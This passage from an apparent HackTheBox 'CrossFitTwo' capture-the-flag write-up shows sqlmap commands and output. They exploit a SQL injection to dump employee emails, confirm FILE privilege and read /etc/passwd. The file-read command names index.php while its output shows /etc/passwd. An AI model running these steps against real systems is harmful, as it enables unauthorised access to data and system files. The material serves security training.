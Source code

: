 ```console
| WSREP_MEMBERSHIP              |
| WSREP_STATUS                  |
+-------------------------------+
```

By enumerating the DB we found another table, ```employees```, Let's dump data from this table:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $sqlmap -u http://localhost:5000/inject?param=1  --dump -D employees -T employees

Database: employees                                                                                                                                                                 
Table: employees
[4 entries]
+-------------------------------+
|  email                         |
+-------------------------------+
|  david.palmer@crossfit.htb    |
|  will.smith@crossfit.htb      |
|  jack.parker@crossfit.htb     |
|  maria.williams@crossfit.htb	|
+-------------------------------+
```

Let's check if we have privileges:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ sqlmap -u http://localhost:5000/inject?param=1 --privileges
...
[03:35:15] [INFO] fetching database users privileges
database management system users privileges:
[*] 'crossfit_user'@'localhost' [1]:
    privilege: FILE

```

Great, We have privilege to read files.

Let's try to read ```/etc/passwd```:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ sqlmap -u http://localhost:5000/inject?param=1 --file-read=/var/www/html/index.php --batch
...
[03:37:55] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[03:37:55] [INFO] the local file '/home/evyatar/.local/share/sqlmap/output/localhost/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (3949 B)
files saved to [1]:
[*] /home/evyatar/.local/share/sqlmap/output/localhost/files/_etc_passwd (same file)

┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ cat /home/evyatar/.local/share/sqlmap/output/localhost/files/_etc_passwd
root:*:0:0:Charlie &:/root:/bin/ksh
daemon:*:1:1:The devil himself:/root:/sbin/nologin
operator:*:2:5:System &:/operator:/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/sbin/nologin
build:*:21:21:base and xenocara build:/var/empty:/bin/ksh
sshd:*:27:27:sshd privsep:/var/empty:/sbin/nologin
_portmap:*:28:28:portmap:/var/empty:/sbin/nologin
_identd:*:29:29:identd:/var/empty:/sbin/nologin
_rstatd:*:30:30:rpc.rstatd:/var/empty:/sbin/nologin
_rusersd:*:32:32:rpc.rusersd:/var/empty:/sbin/nologin
_fingerd:*:33:33:fingerd:/var/empty:/sbin/nologin
_x11:*:35:35:X Server:/var/empty:/sbin/nologin
_unwind:*:48:48:Unwind Daemon:/var/empty:/sbin/nologin
```